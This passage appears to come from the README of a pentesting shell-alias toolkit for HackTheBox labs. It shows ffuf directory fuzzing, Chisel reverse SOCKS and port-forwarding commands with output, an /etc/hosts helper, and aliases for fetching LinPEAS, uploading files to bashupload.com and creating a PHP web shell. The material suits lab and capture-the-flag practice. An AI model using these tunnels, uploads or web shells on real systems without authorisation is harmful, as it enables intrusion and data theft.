 ┌──(22sh㉿kali)-[~]
└─$ fuzz_dir http://box.htb -fs 245

┌──(22sh㉿kali)-[~]
└─$ fuzz_dir http://box.htb -w /path/to/custom/wordlist.txt -fs 245
```
> #### Notes
> - Requires `ffuf` to be installed
## Chisel Tunneling
### > chisel_socks $ip $port
Sets up a SOCKS proxy using Chisel and copy the command to the clipboard.
Example:

```
┌──(22sh㉿kali)-[~/jazz]
└─$ chisel_socks 10.10.14.10 8888
[+] copied chisel client -v 10.10.14.10:8888 R:socks in clipboard
2024/08/05 23:31:03 server: Reverse tunnelling enabled
2024/08/05 23:31:03 server: Fingerprint vasHkxo+4Ec2ahPgyQ8BNqQVXOCda9cmPmP7WXRdh44=
2024/08/05 23:31:03 server: Listening on http://0.0.0.0:8888
```
### > chisel_forward $local_ip $local_port $remote_ip $remote_port
Sets up port forwarding using Chisel.
Example:

```
┌──(22sh㉿kali)-[~/jazz]
└─$ chisel_forward 10.10.14.10 8080 127.0.0.1 8080
[+] Copied to clipboard: ./chisel client 10.10.14.10:8888 R:8080:127.0.0.1:8080
[+] Run this on the target machine
2024/08/05 23:32:30 server: Reverse tunnelling enabled
2024/08/05 23:32:30 server: Fingerprint x2iuHfzYVOWXL/7Gw0a6AjXhMIg8WP7AqZwlDuRasQw=
2024/08/05 23:32:30 server: Listening on http://0.0.0.0:8888
```
## Host Management
### > addhost $ip $hostname
Adds or updates an entry in the /etc/hosts file.
Example:
```
┌──(22sh㉿kali)-[~/jazz]
└─$ addhost 10.10.11.234 big.box.htb 
[+] Appended big.box.htb to existing entry for 10.10.11.234 in /etc/hosts
10.10.11.234 boss.htb big.boss.htb big.box.htb


┌──(22sh㉿kali)-[~/jazz]
└─$ addhost 10.10.11.235 newbox.htb 
[+] Added new entry: 10.10.11.235 newbox.htb to /etc/hosts
10.10.11.235 newbox.htb
```


## Additional Aliases
- `linpeas`: Downloads the latest version of LinPEAS.
- `upload`: Uploads a file using bashupload.com.
- `phpcmd`: Creates a simple PHP web shell.
- `burl`: curl using burpsuite proxy.
